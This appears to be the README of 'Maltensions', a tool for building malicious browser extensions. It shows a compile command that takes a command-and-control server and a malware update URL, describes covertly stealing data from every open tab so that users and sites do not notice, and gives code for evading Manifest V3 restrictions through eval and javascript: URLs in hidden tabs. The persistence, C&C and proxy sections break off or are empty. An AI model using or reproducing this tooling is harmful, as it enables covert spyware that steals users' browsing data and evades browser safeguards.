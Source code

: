 # Maltensions
Post-Exploitation methods inside any extension


## How To Install/Test?
1. Select an Post-Exploitation module (i.e: tabs / mail / proxy / fs / etc).
2. Configure Post-Exploit arguments (variables at the begining).
3. Inject this module as script in background context.  

python3 compile_maltension.py <modules_list> -p <persistent - yes/no> -r <remote_cc_server> -u <malware_update_url> -f <output_format = file=pack=chrome-extension-unpacked-package/inj=Injectable-JS>

## Background extraction
1. Main Required permissions: tabs
2. The technique: Inject dynamic code to "steal" all info and return it back to background context with messaging, that way, users and sites aren't aware of data extraction (DevTools is empty), and the background context can send this data at arbtirary times when he is choosing to.
* Example code for dynamic execution:
```
chrome.tabs.executeScript(tabId= 1000, {code:"alert()", allFrames: true})
```

* In Manifest V3: tabs, scripting. 
* Even though mv3 doesn't natively support script execution - This is manifest-v3 compatible also (using function definition). 
* 		

* Tracking newly opened tabs:
chrome.tabs.onCreated.addListener(e=>console.log("New tab opened, ID=" + e.id + ", JSON Printing:" + JSON.stringify(e)));
* 


* Bonus - Hidden techniques for MV3:

1. Dynamic code execution from background: 
 ```
 chrome.tabs.create({active: false, 
 	'url': 'javascript:eval("alert(\\"dynamic code executed!\\")")'});
 ```

 Then, from the newly opened page - the malicious extension can then post messages back to background to call specific API's as needed.
2. Also, another way is to inject eval/other inline executionable function & then add argument for that function:

```
	function dynamicExec(code) {
		eval(code);
	}
    var results = await chrome.scripting.executeScript({
      target: {
        tabId: tab.id,
      },
      func: dynamicExec,
      args: ["alert('Dynamic code executed!');"],
    });
```

## Persistency & Configuration Features
Depending on the method of 

This example injects new configuration variable inside the background context of arbitrary extension.

The name of the configuration is configurable.


## Encrypted Storage & C&C



## Proxy Communication

Dependant on m